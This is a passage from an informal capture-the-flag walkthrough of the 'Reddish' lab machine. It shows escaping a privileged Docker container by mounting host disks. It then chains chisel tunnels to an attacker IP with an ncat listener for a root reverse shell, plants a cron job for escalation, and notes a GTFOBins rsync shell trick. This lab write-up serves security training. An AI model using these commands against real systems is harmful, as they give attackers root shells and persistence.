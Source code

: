 Check for docker container is running `--privileged`, meaning we are can mount to these disks as containerr does not need disks 
```bash
ls /dev/ | grep sda
mount /dev/sdaX /mnt
# For me it was sda2
```

![](wearerunningwithdockermisconfiguration.png)

Because OSCP and the like require root on the book we can then do another chisel chain of pwnage. Again this time no Ippsec; I tried:
```bash
# Kali
rlwrap ncat -lvnp 10008
# NodeRed
nohup ./chisel client 10.10.14.24:10000 10008:127.0.0.1:10000 &
# www - Root shell to open 10008 on kali
nohup ./chisel client 172.19.0.4:10008 10008:127.0.0.1:10008 &
# Connect back www 
nohup ./chisel client 172.20.0.3:10008 10008:127.0.0.1:10008 &
# WE already have cron-esc.sh so
cp cron-esc.sh bigroot.sh
sed -i 's/cron-esc/bigroot/g' shell
sed -i 's/172.20.0.3/172.20.0.2/g' bigroot.sh
sed -i 's/10007/10008/g' bigroot.sh
cp bigroot.sh /mnt/tmp/
cp /etc/cron.d/shell /mnt/etc/cron.d/
```

The box is actually externally facing! so no chisel is actually required - went full chisel and not thinking that are on the host that has to be externally facing and we do not need to go through the virtualised network 
![](rootroot.png)

Finally a map of Reddish
![1080](Reddish-ImprovedThinking)


## Beyond Root


####  RSync and Xargs ...its a Long time coming

Priming my brain with some Dual-media - video first and then manual second:
[Rsync - Jay LaCroix](https://www.youtube.com/watch?v=GqSxR93xK6E), [Rsync Man](https://linux.die.net/man/1/rsync)
```bash
df -h # Check the volumes
lost+found # directory for rsync 
# Check if it could send data with dry run
rsync --dry-run $flags $source $destination 
# -n same as --dry-run
# -a archive mode
# -v verbose
# -z compress
rsync -avz /source $user@$IP:/destination
# -4 -6 for prefer IPv4 or IPv6
# -u skipp newer file on destination!
# -r recurse into directories
# -d no recursive


# GTFObins - shell, suid and sudo :)
$sudo rsync -e sh -c "sh $revshell" # suid: "sh -p"
```
